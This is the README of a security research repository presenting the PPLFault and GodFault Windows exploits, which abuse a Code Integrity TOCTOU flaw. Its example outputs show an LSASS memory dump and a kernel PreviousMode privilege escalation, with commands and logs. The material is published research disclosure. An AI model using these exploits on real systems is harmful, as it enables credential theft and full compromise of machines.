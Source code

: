# PPLFault

By [Gabriel Landau](https://twitter.com/GabrielLandau) at [Elastic Security](https://www.elastic.co/security-labs/).

From [PPLdump Is Dead. Long Live PPLdump!](https://www.blackhat.com/asia-23/briefings/schedule/#ppldump-is-dead-long-live-ppldump-31052) presented at [Black Hat Asia 2023](https://www.blackhat.com/asia-23).

## PPLFault

Exploits a TOCTOU in Windows Code Integrity to achieve arbitrary code execution as WinTcb-Light then dump a specified process.  For more details on the exploit, see my slides and/or talk.

### Example Output

```
PS C:\Users\user\Desktop> cmd /c ver

Microsoft Windows [Version 10.0.25346.1001]
PS C:\Users\user\Desktop> tasklist | findstr lsass
lsass.exe                      992 Services                   0     76,620 K
PS C:\Users\user\Desktop> (Get-NtProcess -Access QueryLimitedInformation -Pid 992).Protection

Type           Signer
----           ------
ProtectedLight Lsa


PS C:\Users\user\Desktop> dir *.dmp
PS C:\Users\user\Desktop> .\PPLFault.exe -v 992 lsass.dmp
 [+] No cleanup necessary.  Backup does not exist.
 [+] GetShellcode: 528 bytes of shellcode written over DLL entrypoint
 [+] Benign: C:\Windows\System32\EventAggregation.dll.bak
 [+] Payload: C:\PPLFaultTemp\PPLFaultPayload.dll
 [+] Placeholder: C:\PPLFaultTemp\EventAggregationPH.dll
 [+] Acquired exclusive oplock to file: C:\Windows\System32\devobj.dll
 [+] Ready.  Spawning WinTcb.
 [+] SpawnPPL: Waiting for child process to finish.
 [+] FetchDataCallback called.
 [+] Hydrating 90112 bytes at offset 0
 [+] Switching to payload
 [+] Emptying system working set
 [+] Working set purged
 [+] Give the memory manager a moment to think
 [+] Hydrating 90112 PAYLOAD bytes at offset 0
 [+] Dump saved to: lsass.dmp
 [+] Dump is 74.9 MB
 [+] Operation took 937 ms
PS C:\Users\user\Desktop> dir *.dmp


    Directory: C:\Users\user\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          5/1/2023  11:18 AM       78581973 lsass.dmp
```

## GodFault

Exploits the same TOCTOU as PPLFault.  However instead of dumping a process, it migrates to CSRSS and exploits a vulnerability in `win32k!NtUserHardErrorControlCall` from [ANGRYORCHARD](https://github.com/gabriellandau/ANGRYORCHARD/blob/0a4720f7e07e86a9ac2783411b81efac14938e26/Exploit.c#L69-L81) to decrement `KTHREAD.PreviousMode` from `UserMode` (1) to `KernelMode` (0).  It proves "God Mode" access by opening `\Device\PhysicalMemory`, normally inaccessible from `UserMode`, as `SECTION_ALL_ACCESS`.

### Example Output

```
C:\Users\user\Desktop>GodFault.exe -v
 [?] Server does not appear to be running.  Attempting to install it...
 [+] No cleanup necessary.  Backup does not exist.
 [+] GetShellcode: 2304 bytes of shellcode written over DLL entrypoint
 [+] CSRSS PID is 772
 [+] Benign: C:\Windows\System32\EventAggregation.dll.bak
 [+] Payload: C:\GodFaultTemp\GodFaultPayload.dll
 [+] Placeholder: C:\GodFaultTemp\EventAggregationPH.dll
 [+] Acquired exclusive oplock to file: C:\Windows\System32\devobj.dll
 [+] Testing initial ability to acquire PROCESS_ALL_ACCESS to System: Failure
 [+] Ready.  Spawning WinTcb.
 [+] SpawnPPL: Waiting for child process to finish.
 [+] FetchDataCallback called.
 [+] Hydrating 90112 bytes at offset 0
 [+] Switching to payload
 [+] Emptying system working set
 [+] Working set purged
 [+] Give the memory manager a moment to think
 [+] Hydrating 90112 PAYLOAD bytes at offset 0
 [+] Thread 6248 (KTHREAD FFFFA283B0A62080) has been blessed
 [+] Testing post-exploit ability to acquire PROCESS_ALL_ACCESS to System: Success
 [+] Opened \Device\PhysicalMemory.  Handle is 0x1b4
 [+] Opened System process as PROCESS_ALL_ACCESS.  Handle is 0x1c0
 [+] Press any key to continue...
 [+] No cleanup necessary.  Backup does not exist.
```

## Python
PoC that achieves arbitrary code execution as WinTcb-Light without the CloudFilter API.  See [python/README.md](python/README.md).

## Tested Platforms

|  | Windows 11 22H2 22621.1702 (May 2023) | Windows 11 Insider Canary 25346.1001 (April 2023) |
| - | - | - |
| PPLFault | ✔️ | ✔️ |
| GodFault | ✔️ | ❌ Insider PreviousMode mitigation [bugchecks](https://twitter.com/GabrielLandau/status/1597001955909697536?s=20) |

# License

Silhouette is covered by the [ELv2 license](LICENSE.txt).  It uses [phnt](https://github.com/winsiderss/systeminformer/tree/25846070780183848dc8d8f335a54fa6e636e281/phnt) from SystemInformer under the [MIT license](phnt/LICENSE.txt).

# Credits
Inspired by [PPLdump](https://github.com/itm4n/PPLdump) by [Clément Labro](https://infosec.exchange/@itm4n), which Microsoft [patched](https://itm4n.github.io/the-end-of-ppldump/) in July 2022.

[ANGRYORCHARD](https://github.com/gabriellandau/ANGRYORCHARD) was created by [Austin Hudson](https://twitter.com/ilove2pwn_), who released it when Microsoft patched PPLdump.

